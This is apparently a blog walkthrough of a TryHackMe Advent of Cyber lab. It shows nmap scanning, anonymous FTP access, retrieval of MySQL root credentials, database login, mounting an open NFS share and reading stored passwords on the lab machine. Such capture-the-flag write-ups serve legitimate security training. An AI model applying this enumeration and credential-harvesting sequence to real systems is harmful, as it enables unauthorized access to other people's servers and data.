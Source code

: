 ```yaml
---
title: "Advent of Cyber Day 11 Elf Applications"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 11 Elf Applications"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

McSkidy
has been happy with the progress they've been making, but there's still
so much to do. One of their main servers has some integral services
running, but they can't access these services. Did the Christmas Monster lock them out?

Deploy the machine and starting scanning the IP. **The machine may take a few minutes to boot up.**

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).

[How to Mount an NFS Share in Linux](https://linuxize.com/post/how-to-mount-an-nfs-share-in-linux/)

### Setup

```bash
nmap -sV -sC --script vuln
```

On the nmap result we can see the port 21 (tcp) is open and the anonymous login is allowed

```bash
kali@kali:~$ nmap -sV -sC 10.10.18.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 19:00 EDT
Nmap scan report for 10.10.18.184
Host is up (0.068s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
"21/tcp"   open  ftp     vsftpd 3.0.2
| ftp-anon: "Anonymous FTP login allowed" (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.9.45.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
```

```bash
ftp 10.10.18.184
cred : anonymous
pass : none
```

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10 23:19 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
```

```bash
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (507.8125 kB/s)
```

```bash
kali@kali:~$ cat file.txt
remember to wipe mysql:
"root"
"ff912ABD*"
```

### #1 What is the password inside the creds.txt file? (hint: NFS)

After the setup we can connect to the mysql database

```bash
mysql -h 10.10.18.184 -uroot -pff912ABD*
```

```bash
kali@kali:~$ mysql -h 10.10.18.184 -uroot -pff912ABD*
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.095 sec)
```

```bash
MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.077 sec)
```

```bash
kali@kali:~$ sudo showmount -e 10.10.18.184
Export list for 10.10.18.184:
/opt/files *
```

```bash
kali@kali:~$ sudo mount 10.10.18.184:/opt/files /tmp
kali@kali:~$ ls /tmp
creds.txt
kali@kali:~$ cat /tmp/creds.txt
the password is **securepassword123**
```

### #2 What is the name of the file running on port 21?

```bash
kali@kali:~$ cat **file.txt**
remember to wipe mysql:
root
ff912ABD*
```

### #3 What is the password after enumerating the database?

```bash
MySQL [data]> SELECT * FROM USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.067 sec)
```
